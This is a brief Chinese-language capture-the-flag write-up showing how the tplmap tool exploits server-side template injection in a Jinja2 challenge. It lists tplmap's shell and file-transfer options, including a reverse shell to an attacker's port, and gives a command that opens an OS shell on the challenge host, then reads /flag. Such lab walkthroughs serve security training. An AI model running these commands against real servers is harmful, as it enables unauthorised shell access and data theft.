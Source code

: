 可以输入的指令
```
[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

实例:
```bash
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' --engine=Jinja2 --os-shell # 指定目标引擎
```

![](img/1.png)

`ls ../`
发现flag
`cat /flag`
找到文件
